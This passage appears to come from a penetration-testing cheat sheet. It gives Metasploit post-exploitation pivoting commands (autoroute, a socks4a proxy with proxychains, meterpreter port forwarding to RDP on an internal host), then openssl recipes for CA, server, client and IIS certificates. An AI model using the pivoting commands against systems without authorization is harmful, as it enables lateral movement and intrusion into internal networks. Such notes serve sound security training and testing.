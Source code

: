 ```
set LPORT 444
exploit
```

##### Auto routing
```
use multi/manage/autoroute
set session 4
exploit
```

##### Routing for socks proxy
```
use auxiliary/server/socks4a
set SRVHOST 127.0.0.1
exploit -j

echo "socks4 127.0.0.1 1080" >> /etc/proxychains.conf

proxychains rdesktop 192.168.1.110
```

##### Routing for port forwarding
```
meterpreter > portfwd -h
meterpreter > portfwd add -l 3389 -p 3389 -r 192.168.1.110
rdesktop 127.0.0.1
```

## SSL for http and https
### Generate a certificate authority (CA) cert
```
openssl req -newkey rsa:4096 -keyform PEM -keyout ca.key -x509 -days 3650 -outform PEM -out ca.cer
```

### Generate Apache server SSL key and certificate
```
openssl genrsa -out server.key 4096
openssl req -new -key server.key -out server.req -sha256
openssl x509 -req -in server.req -CA ca.cer -CAkey ca.key -set_serial 100 -extensions server -days 1460 -outform PEM -out server.cer -sha256
rm server.req
```

### Generate a client SSL certificate (Target: browser)
```
openssl genrsa -out client.key 4096
openssl req -new -key client.key -out client.req
openssl x509 -req -in client.req -CA ca.cer -CAkey ca.key -set_serial 101 -extensions client -days 365 -outform PEM -out client.cer
openssl pkcs12 -export -inkey client.key -in client.cer -out client.p12
rm client.key client.cer client.req

#Verify wether the client cert is well signed 
openssl verify -verbose -CAfile ca.crt client.cer 
```

### Generate certificate for IIS
```
openssl pkcs12 -inkey server.key -in server.crt -export -out server.pfx
```
